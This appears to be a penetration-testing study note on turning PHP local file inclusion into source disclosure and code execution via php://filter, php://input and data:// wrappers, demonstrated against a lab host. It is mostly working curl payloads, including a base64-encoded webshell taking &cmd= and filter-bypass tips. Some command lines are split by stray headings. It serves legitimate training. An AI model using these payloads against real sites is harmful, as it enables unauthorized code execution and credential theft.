

---
tags:
  - phase/exploitation
  - lfi
  - php
  - web
---

# PHP wrappers

> [!tip] Quick Reference — PHP Wrappers
> | Wrapper | Use | Payload |
> |---------|-----|---------|
> | `php://filter` | Read source code | `?page=php://filter/convert.base64-encode/resource=index.php` |
> | `php://input` | Execute POST body | `?page=php://input` + POST: `<?php system('id'); ?>` |
> | `data://` | Inline code exec | `?page=data://text/plain,<?php system('id');?>` |
> | `data://` base64 | Bypass filters | `?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg==` |
> | `expect://` | Direct RCE | `?page=expect://id` (rarely enabled) |

## Decision Tree

```
LFI confirmed but no logs accessible?
├── Read source code first (understand the app)
│   └── php://filter/convert.base64-encode/resource=<filename>
│       └── base64 -d to decode the output
│
├── Try data:// for inline execution
│   ├── allow_url_include=On needed
│   ├── ?page=data://text/plain,<?php system($_GET['cmd']);?>
│   └── If filtered → base64 encode the payload
│
├── Try php://input
│   ├── allow_url_include=On needed
│   ├── curl -X POST "http://<IP>/?page=php://input" --data "<?php system('id');?>"
│   └── Works if POST body is executed
│
└── Nothing works?
    └── Fall back to log poisoning or RFI
```

## Visual Flow



> [!success] What success looks like
> With `php://filter` the response shows a long base64 string; decoding it reveals the raw PHP source (e.g. `$password = "..."`). With `data://` the response embeds your command's output, like a directory listing (`admin.php`, `bavarian.php`, `index.php`, `start.sh`).

> [!danger] Common errors
> - `php://filter` returns the rendered page, not base64 → you forgot `convert.base64-encode/`; add it before `resource=`.
> - `data://` does nothing → `allow_url_include` must be `On`; it is off by default, so fall back to log poisoning or RFI.
> - Filter blocks `system` or `<?php` → base64-encode the whole snippet and use `;base64,` form. See [[🔣 Encoding Reference]].
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> PHP "wrappers" are special URL schemes PHP understands. `php://filter` lets you *read* a file's source (handy because PHP code normally runs and is hidden), while `data://` lets you feed PHP your own code to *execute* — turning a read-only file inclusion into code execution.

## Resources
- [HackTricks — PHP Wrappers](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers)
- [PayloadsAllTheThings — PHP Wrappers](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter)


PHP offers a variety of protocol wrappers to enhance the language's capabilities. For example, PHP wrappers can be used to represent and access local or remote filesystems. We can use these wrappers to bypass filters or obtain code execution via File Inclusion vulnerabilities in PHP web applications. While we'll only examine the php://filter and data:// wrappers, many are available.

> [!info] Including admin.php runs it — source stays hidden
> Requesting `?page=admin.php` executes the file rather than showing its source, so you only see the rendered HTML (a "maintenance" message) with an unclosed `<body>` tag. The missing content is the server-side PHP, which never appears in the output — that's the code we want to read with a wrapper.
> ```
> curl "http://mountaindesserts.com/meteor/index.php?page=admin.php"
> ```


> [!info] php://filter without encoding still executes the file
> The `php://filter` wrapper takes a required `resource=` parameter naming the file (absolute or relative path). Without a conversion filter it behaves like a normal include — the PHP still runs and you get the same rendered "maintenance" page, not the source:
> ```
> curl "http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php"
> ```

curl
[http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php](http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php)

> [!info] Add convert.base64-encode to read the source
> Insert the `convert.base64-encode` filter to return the resource as a base64 string instead of executing it. The response now contains a base64 blob (the encoded source) in place of the rendered page:
> ```
> curl "http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php"
> ```

curl
[http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php](http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php)

> [!info] Decode the base64 to reveal the source
> Pipe the base64 blob through `base64 -d` to recover the raw source of `admin.php`, exposing the hidden PHP — including the database credentials:
> ```
> echo "<base64 blob>" | base64 -d
> ```
> Decoded excerpt:
> ```php
> <?php
> $servername = "localhost";
> $username = "root";
> $password = "M00nK4keC4rd!2#";
> $conn = new mysqli($servername, $username, $password);
> ```


> [!info] data:// wrapper for code execution
> Where `php://filter` only reads a file, the `data://` wrapper embeds your own data — as plaintext or base64 — directly into the running code, giving code execution. It's a useful alternative when you can't poison a local file with PHP.


> [!info] Inline PHP with data:// (plaintext)
> Use `data://` followed by the type and a URL-encoded PHP snippet. This embeds and runs `system('ls')`, returning a directory listing (`admin.php`, `bavarian.php`, `index.php`, ...) inside the response:
> ```
> curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
> ```

curl "http://mountaindesserts.com/meteor/index.php?

## page=data://text/plain,<?php%20echo%20system('ls');?>"


> [!info] Bypass filters with base64-encoded data://
> If a WAF filters strings like `system` or `<?php`, base64-encode the whole PHP snippet first, then deliver it via `data://text/plain;base64,...` so the blocked keywords never appear in the request.


> [!info] Encode the snippet and execute via base64 data://
> Base64-encode a webshell snippet, then supply it in the `data://...;base64,` form and pass commands with `&cmd=`:
> ```
> echo -n '<?php echo system($_GET["cmd"]);?>' | base64
> # -> PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==
> curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
> ```
> Note: `data://` only works if `allow_url_include` is enabled — it's off in a default PHP install.

curl "http://mountaindesserts.com/meteor/index.php?page=

## data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

curl http://192.168.158.16/meteor/index.php?page=php://filter/convert.base64-encode/resource=

## /var/www/html/backup.php

curl "http://192.168.158.16/meteor/index.php?page=

## data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=uname%20-a"

---
%% graph-links %%
## Related
- [[Local file inclusion (LFI)]]
- [[Remote file inclusion (RFI)]]
- [[Command Injection]]

> [!info] Navigation
> Section: [[Web Applications/Common Web Application Attacks/File Inclusion Vulnerabilities/_index|File Inclusion Vulnerabilities]] · Home: [[🏠 Home]]

